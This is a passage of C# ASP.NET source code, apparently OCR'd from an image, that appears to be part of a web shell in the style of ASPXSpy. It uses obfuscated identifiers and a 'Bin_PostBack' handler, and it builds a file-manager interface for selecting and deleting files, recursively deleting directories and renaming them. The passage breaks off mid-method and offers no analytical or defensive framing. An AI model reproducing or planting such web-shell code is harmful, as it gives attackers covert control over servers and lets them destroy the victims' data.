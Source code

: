 TableCell lGV=new TableCell();
if(i==1)
{
lGV.Text="<input name=\"chkall\" value=\"on\" type=\"checkbox\" onclick=\"var ck=document.getElementsByTagName('input');for(var i=0;i<ck.length-1;i++){if(ck[i].type=='checkbox'&&ck[i].name!='chkall'){ck[i].checked=forms[0].chkall.checked;}}\"/>";
}
if(i==2)
{
lGV.Text="<a href=\"#\" Onclick=\"var d_file='';var ck=document.getElementsByTagName('input');for(var i=0;i<ck.length-1;i++){if(ck[i].checked&&ck[i].name!='chkall'){d_file+=ck[i].name+',';}};if(d_file==null || d_file==''){ return;} else {if(confirm('Are you sure delete the files ?')){Bin_PostBack('SJv',d_file)};}\">Delete selected</a>";
}
if(i==3)
{
lGV.ColumnSpan=4;
lGV.Style.Add("text-align","right");
lGV.Text=vLlH+" directories/ "+aYRwo+" files";
}
oWam.Cells.Add(lGV);
}
UGzP.Rows.Add(oWam);
}
catch(Exception error)
{
xseuB(error.Message);
}
}
public string OKM()
{
TdgGU++;
if(TdgGU % 2==0)
{
return "alt1";
}
else
{
return "alt2";
}
}
public void kRXgt(string qcKu)
{
try
{
Directory.Delete(qcKu,true);
xseuB("Directory delete new success !");
}
catch(Exception error)
{
xseuB(error.Message);
}
krIR(Directory.GetParent(qcKu).ToString());
}
public void dAJTD(string sdir,string ddir)
{
try
{
Directory.Move(sdir,ddir);
xseuB("Directory Renamed Success !");
}
catch(Exception error)
{
xseuB(error.Message);